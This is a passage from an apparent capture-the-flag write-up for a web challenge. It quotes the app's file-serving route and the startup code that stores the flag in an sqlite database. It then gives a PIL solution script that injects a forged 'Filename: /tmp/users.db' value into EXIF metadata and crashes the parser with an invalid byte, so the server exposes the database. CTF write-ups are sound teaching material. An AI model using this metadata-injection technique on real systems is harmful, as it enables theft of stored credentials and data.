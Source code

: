 In case it wasn't clear already, any file we want to access needs to be in the `/static` directory. This is because the app reads only serves files from the static directory in the `/get` path:

```py
@app.route('/get/<file_name>')
def get_file(file_name):
    if not is_jpg_ext(file_name) and not file_name.endswith('.meta'):
        return 'Invalid file extension', 400

    user_static_dir = os.path.join(STATIC_DIR, str(session['user_id'])) # <-- concat the static dir with the user id to get the user's directory that files are stored in
    fpath = os.path.join(user_static_dir, file_name)
    return app.send_static_file(os.path.join(str(session['user_id']), file_name))
```

None of this would matter, though, if there isn't anything to read on the filesystem. Well, thankfully we're in luck, because the flag is inserted (in plaintext) into the sqlite3 database when the web challenge starts up:

```py
if __name__ == '__main__':
    ...
    c.execute('INSERT INTO users VALUES ("flagflagflagflag", "flag", ?)', ('ictf{f4ke_f1aG_bo1nG_b0ing_8oiNG}',))
```

Meaning that we could steal the flag by stealing the sqlite database in `/tmp/users.db`.


## Execution

Now we'll address our earlier problem: how can we force the EXIF data we control to be the last line in the file (for the filename tag) when the last thing that the `compute.py` file does is set the filename?

<details><summary>compute.py</summary></details>

<br>

For our attack, we chose to crash the program before it writes the final filename by adding invalid data that `compute.py` won't decode. Essentially, we write the custom filename to the metadata file in the ImageDescription EXIF data, so that when the UserComment crashes `compute.py` our ImageDescription was the last thing added to the metadata file.

Here was our solution script:

```py
from PIL import Image

IMAGE_DESC = 0x010E
USER_COMMENT = 0x9286

input_file = "./input.jpg"
output_file = "./output.jpg"

desc_payload = "\n\nFilename: /tmp/users.db"  # symlink to users.db
comment_payload = b'\x80' # crash when reading user comment

image = Image.open(input_file)
exif = image.getexif()
exif[IMAGE_DESC] = desc_payload
exif[USER_COMMENT] = comment_payload

image.save(output_file, exif=exif)
```
